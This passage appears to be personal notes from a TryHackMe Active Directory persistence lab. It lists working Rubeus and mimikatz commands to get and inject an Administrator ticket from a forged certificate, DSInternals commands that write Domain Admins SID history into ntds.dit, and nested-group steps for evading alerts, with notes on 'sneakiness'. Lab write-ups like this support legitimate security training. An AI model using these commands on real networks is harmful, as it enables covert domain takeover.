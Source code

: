 `C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101`*Get the TGT*

    /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
    /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
    /certificate - Path to the certificate we have generated
    /password - The password for our certificate file
    /outfile - The file where our TGT will be output to
    /domain - The FQDN of the domain we are currently attacking
    /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running

`mimikatz # kerberos::ptt administrator.kirbi`
`mimikatz # exit`

# SID Persistence(Domain adm privs)

Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. Making this a very sneaky method of persistence. We have all the permissions we need to compromise the entire domain (perhaps the entire forest), but our account can simply be a normal user account with membership only to the Domain Users group. We can up the sneakiness to another level by always using this account to alter the SID history of another account, so the initial persistence vector is not as easily discovered and remedied.

`Get-ADUser <your ad username> -properties sidhistory,memberof`*Check the SID history of the account we want*
`Get-ADGroup "Domain Admins"` *get the SID of the Domain Admins group*

`Import-Module DSInternals`
`Stop-Service ntds -Force`
`Add-ADDBSidHistory -SamAccountName 'donald.ross' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath 'C:\Windows\NTDS\ntds.dit'`
`Start-Service ntds`

# Nested group persistence
**For instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group. We would make use of the existing groups to perform nesting instead of creating them as we will do below. However, this is something you would never do on a normal red team assessment !!**

`New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security` *creating a new base group that we will hide in the People->IT Organisational Unit (OU)*

`New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security`

